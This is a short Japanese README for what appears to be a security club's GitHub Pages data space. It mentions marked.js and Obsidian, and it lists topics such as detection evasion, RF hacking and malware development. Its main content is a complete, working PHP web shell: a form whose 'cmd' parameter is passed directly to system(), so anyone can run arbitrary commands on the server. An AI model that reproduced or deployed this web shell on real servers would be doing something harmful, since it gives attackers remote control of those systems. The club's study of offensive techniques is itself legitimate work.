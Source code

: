 # veritas.github.io


ここは部活で共有したデータ置き場の予定<BR>
marked.jsを使用することで、Markdown形式をそのまま表示させ、ローカルにあるObsidianとの互換性を保つ。<BR>

|A|B|
|-|-|
|検知回避|RFハッキング|
|マルウェア開発|ツール開発|

```php
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
            <input type="SUBMIT" value="Execute">
        </form>
        <pre>
            <?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
        </pre>
    </body>
</html>
```

---




